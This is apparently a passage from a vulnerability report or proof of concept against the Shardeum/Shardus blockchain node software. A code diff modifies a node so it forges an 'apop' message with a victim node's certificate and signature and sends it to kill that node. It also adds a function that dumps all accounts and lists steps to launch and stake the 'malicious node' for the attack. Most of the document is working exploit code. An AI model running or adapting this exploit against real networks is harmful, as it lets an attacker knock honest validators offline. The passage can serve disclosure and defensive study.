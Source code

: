 ```diff
+        certExp: craftedPayload.certExp,
+        sign: targetSig
+      }
+
+      // res.write(`sending the apop behalf of victim node to kill it ${Utils.safeStringify(apopPayload)}`)
+
+      shardus.kill(apopPayload);
+
+      const status = {
+        verfied : crypto.verifyObj(apopPayload),
+        apopPayload: apopPayload
+      }
+
+      return res.json(Utils.safeJsonParse(Utils.safeStringify(status)))
       } catch (error) {
         /* prettier-ignore */ if (logFlags.error) console.error('Error in processing query-certificate request:', error)
         res.status(500).json({ error: 'Internal Server Error' })
diff --git a/src/storage/accountStorage.ts b/src/storage/accountStorage.ts
index 52c5e58..b72b9d2 100644
--- a/src/storage/accountStorage.ts
+++ b/src/storage/accountStorage.ts
@@ -174,6 +174,15 @@ export async function debugGetAllAccounts(): Promise<WrappedEVMAccount[]> {
   //return null
 }
 
+export async function getAllAccounts(): Promise<WrappedEVMAccount[]> {
+  if (ShardeumFlags.UseDBForAccounts === true) {
+    return (await storage.getSelectAllAccountsEntry()) as unknown as WrappedEVMAccount[]
+  } else {
+    return Object.values(accounts)
+  }
+  //return null
+}
+
 export async function clearAccounts(): Promise<void> {
   if (ShardeumFlags.UseDBForAccounts === true) {
     //This lazy init is not ideal.. we only know this is called because of special knowledge
diff --git a/src/storage/storage.ts b/src/storage/storage.ts
index 8ba2251..3750d62 100644
--- a/src/storage/storage.ts
+++ b/src/storage/storage.ts
@@ -313,5 +313,14 @@ class Storage {
       throw new Error(e)
     }
   }
+
+  async getSelectAllAccountsEntry(): Promise<unknown> {
+    this._checkInit()
+    try {
+      return await this._read(this.storageModels.accountsEntry, null, null)
+    } catch (e) {
+      throw new Error(e)
+    }
+  }
 }
 export default Storage
```
- Link @shardus/core to the shardeum and launch the malicious node
- Launch the malicious node
- Stake the malicious node and wait for it to go active
- Once It is active, malicious node is ready to be used for attack